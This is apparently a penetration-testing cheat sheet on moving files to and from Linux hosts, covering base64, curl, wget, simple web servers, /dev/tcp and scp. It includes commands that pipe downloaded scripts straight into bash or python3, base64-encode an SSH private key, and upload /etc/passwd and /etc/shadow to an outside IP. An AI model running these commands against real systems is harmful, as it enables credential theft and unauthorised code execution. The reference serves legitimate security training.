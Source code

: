 # Linux

## <mark style="color:yellow;">BASE64</mark>

#### **Check MD5 Hash**

```bash
md5sum id_rsa
```

### <mark style="color:blue;">**Encode**</mark>&#x20;

> In this example we are encoding SSH Key to Base64

```bash
cat id_rsa |base64 -w 0;echo
```

### <mark style="color:blue;">**Decode**</mark>

```bash
echo -n 'justimaginethisissomerandomhashbecauseyoudontcareandidontcare=` | base64 -d > id_rsa
```

## <mark style="color:yellow;">CURL</mark>

### <mark style="color:blue;">Regular Download</mark>

```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### <mark style="color:blue;">Fileless Download</mark>

```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### <mark style="color:blue;">Multiple File Upload</mark>

```
curl -X POST https://13.13.13.13/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## <mark style="color:yellow;">WGET</mark>

### <mark style="color:blue;">**Regular Download**</mark>

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

### <mark style="color:blue;">Fileless Download</mark>

```
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### <mark style="color:blue;">Upload</mark>

Mechanism is similar to Windows web upload using <mark style="color:green;">`uploadserver`</mark> module:

```bash
sudo python3 -m pip install --user uploadserver
```

#### **Secure HTTPS Web Server**

1. **Start Web Server**

```bash
sudo python3 -m pip install --user uploadserver
```

2. **Create a Self-Signed Certificate**

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

3. **Start Web Server**

```bash
mkdir https && cd https
```

```bash
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

## <mark style="color:yellow;">**Alternative Methods**</mark>

#### **Creating a Web Server with Python3**

```bash
python3 -m http.server
```

#### **Creating a Web Server with Python2.7**

```bash
python2.7 -m SimpleHTTPServer
```

#### **Creating a Web Server with PHP**

```bash
php -S 0.0.0.0:8000
```

#### **Creating a Web Server with Ruby**

```bash
ruby -run -ehttpd . -p8000
```

## <mark style="color:yellow;">Bash(/dev/tcp)</mark>

#### **Connect to the Target Webserver**

```bash
exec 3<>/dev/tcp/13.13.13.13/80
```

#### **HTTP GET Request**

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### **Print the Response**

```bash
cat <&3
```

## <mark style="color:yellow;">SCP</mark>

<mark style="color:red;">**SSH**</mark> is a protocol that allows <mark style="color:purple;">**secure access to remote computers**</mark>. And we could use <mark style="color:red;">**SCP**</mark> utility which <mark style="color:purple;">**uses SSH protocol for transferring files**</mark>

### <mark style="color:blue;">Preparation</mark>

#### **Enabling the SSH Server**

```bash
sudo systemctl enable ssh
```

#### **Starting the SSH Server**

```bash
sudo systemctl start ssh
```

#### **Checking for SSH Listening Port**

```bash
netstat -lnpt
```

### <mark style="color:blue;">Download</mark>

```bash
scp sreed@13.13.13.13.:/root/root.txt .
```

### <mark style="color:blue;">Upload</mark>

```bash
scp /etc/passwd sreed@13.13.13.13:/home/plaintext/
```
